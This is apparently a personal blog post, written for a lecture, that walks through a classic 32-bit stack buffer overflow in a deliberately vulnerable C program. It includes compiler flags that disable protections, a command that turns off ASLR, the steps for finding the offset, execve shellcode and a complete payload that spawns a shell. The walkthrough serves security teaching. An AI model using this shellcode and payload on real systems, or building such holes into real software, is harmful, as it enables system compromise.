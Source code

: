```yaml
---
title: "Buffer Overflow 101"
description: Here is a demo of all shortcodes available in Hugo.
date: 2025-04-06
tags: ["buffer overflow", "exploit development", "security", "vulnerability"]
categories: ["Cybersecurity", "Exploitation"]
summary: This post covers the basics of creating and exploiting a buffer overflow vulnerability.
toc: true
---
```


<script src="https://cdn.jsdelivr.net/npm/medium-zoom@1.0.6/dist/medium-zoom.min.js"></script>
<script>
  document.addEventListener('DOMContentLoaded', function () {
    mediumZoom('article img'); // Targets all images inside articles
  });
</script>

<style>
.toc {
  font-size: 0.9em; /* Reduce the font size */
  width: auto; /* Keep the width dynamic */
  padding: 8px; /* Add some padding for spacing */
  position: relative; /* Ensure it stays in its original position */
  margin-left: 0; /* Keep it aligned to the left */
}

.toc a {
  font-size: 0.85em; /* Reduce the font size of links */
  line-height: 1.4; /* Adjust line height for better readability */
}

/* Increase the font size of post summaries in the posts list */
.posts .post-summary,
.post .summary {
  font-size: 1.4rem; /* Slightly larger size for summaries */
  line-height: 1.7; /* Improve readability */
  color: var(--font-color); /* Ensure it matches the theme */
  margin-bottom: 14px; /* Add spacing below the summary */
}

/* Increase the font size of post metadata (like dates) */
.posts .post-meta,
.post .post-meta {
  font-size: 1.3rem; /* Slightly larger size for metadata */
  color: var(--secondary); /* Use a secondary color for distinction */
  margin-bottom: 12px; /* Add spacing below the metadata */
}
</style>

## Background
- A bit of background on buffer overflows: Buffer overflows occur when a program writes more data to a buffer than it can hold. This can overwrite nearby memory, potentially allowing attackers to execute arbitrary code or cause other security issues.
- Recently, during one of my lectures, I was tasked with demonstrating a buffer overflow vulnerability. I’d like to share my approach to simulating this exploit.

## C Program used for the Simulation

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[]) {
    char buffer[256];
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
    return 0;
}
```

- This binary is vulnerable due to the use of `strcpy`, which does not check if the destination buffer is large enough. Consequently, an attacker could overwrite adjacent memory. P.S.: For safer code, consider using `strncpy` or other bounds-checked functions.


## Compilation
```c
gcc -fno-stack-protector -z execstack -no-pie -m32 -mpreferred-stack-boundary=2 program.c -o program
```
- <u>_**mpreferred-stack-boundary**_</u>: This is particularly relevant for older or specific ABI requirements, as many modern systems use a higher boundary. Basically in my case, I had to use this to ensure that the stack is aligned to 4 bytes as im compiling to a 32 bit binary.
- <u>_**fno-stack-protector**_:</u> Disables stack protection also known as canaries allowing buffer overflow to occur.
- <u>_**execstack**_:</u> Marks the stack as executable, which enables code placed on the stack to run.
- <u>_**no-pie**_:</u> Disables Position Independent Executable (PIE), ensuring the binary loads at a fixed address—useful for predictable shellcode placement.
- <u>_**m32**_</u>: Compiles the code as a 32-bit binary.

Also make sure to disable ASLR using the below command,

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

This makes sure that the addresses are not randomized and are predictable.

## Reconnaissance
![Checksec Image](/images/Screenshot_2025-03-26_10-47-14.png)

- <u>_**PIE**_</u>: The binary is not built as a Position Independent Executable, which means its memory layout remains fixed on each run.
- <u>_**Stack**_</u>: No stack canary is present, making it easier to exploit the buffer overflow. Additionally, the stack is executable, allowing shellcode execution.

## Performing the attack

1. <u>**Basic Exploration**</u>  
   First, I'll disassemble the `main` function and fill the buffer to find out where the buffer's address is stored in the stack.

    ![Buffer Address](/images/Screenshot_2025-03-20_08-04-13.png)

    Now from the above we will first try to put a breakpoint at something after the **puts@plt** which is at `0x8049050` so that we can see how the buffer fills upon filling with input.

2. <u>**Filling the Buffer**</u>

    ![Filling Buffer](/images/Screenshot_2025-03-21_00-37-48.png)

    Command: `r $(python2 -c 'print "A"*256')`

    In the above image upon running this we can fill the buffer which can accommodate `256` bytes of characters using python2. This helps in crafting the exploit by knowing where the buffer resides in memory.

    Running the below command gives us a better clarity,

    Command: `x/256x $esp`

    ![Inspecting Buffer](/images/Screenshot_2025-03-21_00-38-01.png)

    From this image we can see that the buffer starts filling from `0xffffcfa4` with ‘A’ (0x41)

3. <u>**Offset Calculation**</u>

    Now let’s find till where we must give input so that we can overwrite the EIP (current instruction register) . From the below we see that we overwrote the EIP with `‘qaac’`.

    Command: `cyclic 300`

    ![Cyclic 300](/images/Screenshot_2025-03-21_00-39-34.png)

    Now finding the offset using the below command,

    Command: `cyclic -l qaac`

    ![Cyclic finder](/images/Screenshot_2025-03-21_00-39-51.png)

    Thus we found that the offset needed is `264` after which the next 4 bytes given will overwrite the EIP with that value.

    Command: `r $(python2 -c 'print "A"*264 + "BBBB"')`

    We can confirm this with the below image where after `264`, I have given `‘BBBB’` as input which has been overwritten onto the EIP.

    ![EIP overwrite](/images/Screenshot_2025-03-21_00-43-47.png)

4. <u>**Writing the Exploit**</u>

    Now we have the following details:

     **Buffer starting address**: `0xffffcfa4`  
     **Offset**: `264`

    Next, we need malicious code. I’ll be using a shellcode that spawns a shell from the binary, which can be exploited by an attacker to compromise the system.

    **Shellcode used**:
    ```bash
    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80
    ```

    The above is a 23 byte shell code 

    So now to write the exploit we need to follow the below structure,


    - First we need a **NOP** (NO operation sled) which provides a safe landing zone for the return address. Basically making sure that execution slides down NOPs to reach the shellcode . For this lets take a value of `100` NOPs (experimentally found).
    - Next we put the 23 byte shell code.
    - Next since the offset was 264 we fill the remaining (264 – 23 – 100 = `141`) with padding, so here Ive padded with ‘A’
    - Next we write the address which we want to overwrite on the EIP
    - In this the actual return stack address is `0xffffcfa4`, however we want to point it to an address which is somewhere within the NOP sled so it can slide to the shellcode. Hence from the below image ill take the address `0xffffd0c0` which is filled with /x90 which are NOPs so that it can slide execution into the shellcode.<br><br>
    
    The stack address is located higher in memory, as shown below:

    ![Image with NOP slide](/images/Screenshot_2025-03-21_17-21-21.png)

    Thus, we can craft the exploit as follows:

    ```bash
    ./program $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x90"*100 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80" + b"A"*141 + b"\xc0\xd0\xff\xff")')
    ```

    - The address `0xffffd0c0` has been written in little endian hence `\xc0\xd0\xff\xff`.
    - NOP in hex is `\x90`.<br><br>
    Below is an image which shows the attack being successful and spawing a shell which can be used by the attacker for manipulating the system.<br><br>

    ![Attacked](/images/Screenshot_2025-03-21_17-25-56.png)

    And there you have it – the successful exploitation of the buffer overflow vulnerability, demonstrated by spawning a shell.

